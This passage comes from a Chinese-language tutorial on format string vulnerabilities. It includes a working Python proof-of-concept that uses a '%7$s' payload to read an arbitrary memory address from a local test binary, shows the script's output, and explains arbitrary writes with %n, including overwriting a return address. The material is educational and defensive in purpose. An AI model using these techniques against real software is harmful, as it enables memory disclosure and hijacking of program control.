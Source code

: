 3. 传入参数，读取数据

```python
#!/usr/bin/python2
#coding: utf8
import struct
import subprocess
from subprocess import PIPE as PIPE

leak_addr = 0x400738

#因为8字节指针中有\x00,导致printf打印时会被截断，所以放到后面，作为第七个参数
payload = r"%7$sAAAA" #因为是六十四位系统，一个指针的长度为8字节，所以要填充四个A，进行对齐
payload += struct.pack("<Q", leak_addr) #64bit, little-endian


process = subprocess.Popen("./format_test", stdin=PIPE, stdout=PIPE)
print process.communicate(payload)[0]

```

```shell
$ python exp.py
{this-will-be-patched-in-run-time}AAAA8@
```

`8[不可打印字符]@`为leak_addr对应的字符

```
>>> import struct
>>> i = struct.pack("<Q",0x400738)
>>> i
'8\x07@\x00\x00\x00\x00\x00'
```

任意地址读取可以用来dump远程文件



##### 任意地址写入

格式化字符串中有一个类型`%n`，用于将已写出的字符的数量写入到对应的变量里

比如我们想对某个参数写入数值X，则只需打印出X个字符，然后再放一个`%变量索引$n`，即可对参数写入数值。

不过如果我们赋的数值很大，比如修改栈上的返回地址，打印一个非常非常长的字符串到屏幕上不是个好主意，可以通过指定输出长度，逐个字节的写入。每写一个字节打印的字符不超过255个。



关于控制输出长度，摘自[wiki](https://en.wikipedia.org/wiki/Printf_format_string)

| Character | Description                                                  |
| --------- | ------------------------------------------------------------ |
| `hh`      | For integer types, causes `printf` to expect an `int`-sized integer argument which was promoted from a `char`. |
| `h`       | For integer types, causes `printf` to expect an `int`-sized integer argument which was promoted from a `short`. |
| `l`       | For integer types, causes `printf` to expect a `long`-sized integer argument.For floating point types, this has no effect.[[3\]](https://en.wikipedia.org/wiki/Printf_format_string#cite_note-c99io-3) |
| `ll`      | For integer types, causes `printf` to expect a `long long`-sized integer argument. |
| `L`       | For floating point types, causes `printf` to expect a `long double` argument. |
| `z`       | For integer types, causes `printf` to expect a `size_t`-sized integer argument. |
| `j`       | For integer types, causes `printf` to expect a `intmax_t`-sized integer argument. |
| `t`       | For integer types, causes `printf` to expect a `ptrdiff_t`-sized integer argument. |
